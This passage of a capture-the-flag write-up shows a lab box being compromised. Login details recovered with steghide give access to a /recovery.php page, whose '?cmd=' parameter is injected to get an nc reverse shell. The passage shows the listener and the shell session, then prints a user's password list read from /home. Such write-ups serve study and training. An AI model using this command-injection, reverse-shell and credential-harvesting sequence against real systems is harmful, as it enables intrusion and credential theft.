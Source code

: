 So using that password with steghide on the `header.jpg` image gave us the `/recovery.php` login creds! When we log into the `/recovery.php` endpoint, we are greeted with the following:

![recover php](https://user-images.githubusercontent.com/32188816/82767363-586f1280-9de4-11ea-9302-d074e55c8227.png)

So it looks like we can enter commands using a `?cmd=` variable. Let's try to inject some basic command first to see if it works:

![recovery_cmd](https://user-images.githubusercontent.com/32188816/82767393-7fc5df80-9de4-11ea-8e37-934d7e9642d7.png)

Nice, so it looks like we can inject a nc reverse shell, and catching the shell works!

```bash
jeffrowell@kali:~/Documents/eCPPT/Network_Security/Information Gathering$ nc -lvp 1234
listening on [any] 1234 ...
10.10.111.20: inverse host lookup failed: Unknown host
connect to [10.8.21.42] from (UNKNOWN) [10.10.111.20] 60118
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
ls
index.php
```

Looking around the file system we are able to find `jacks_password_list`:
```bash
pwd
/var/www/html/nnxhweOV
cd
pwd
/var/www/html/nnxhweOV
cd /home
ls
jack
jacks_password_list
cat jacks_password_list
*hclqAzj+2GC+=0K
eN<A@n^zI?FE$I5,
X<(@zo2XrEN)#MGC
,,aE1K,nW3Os,afb
ITMJpGGIqg1jn?>@
0HguX{,fgXPE;8yF
sjRUb4*@pz<*ZITu
[8V7o^gl(Gjt5[WB
yTq0jI$d}Ka<T}PD
Sc.[[2pL<>e)vC4}
9;}#q*,A4wd{<X.T
M41nrFt#PcV=(3%p
GZx.t)H$&awU;SO<
.MVettz]a;&Z;cAC
2fh%i9Pr5YiYIf51
TDF@mdEd3ZQ(]hBO
v]XBmwAk8vk5t3EF
9iYZeZGQGG9&W4d1
8TIFce;KjrBWTAY^
SeUAwt7EB#fY&+yt
n.FZvJ.x9sYe5s5d
8lN{)g32PG,1?[pM
z@e1PmlmQ%k5sDz@
ow5APF>6r,y4krSo
```
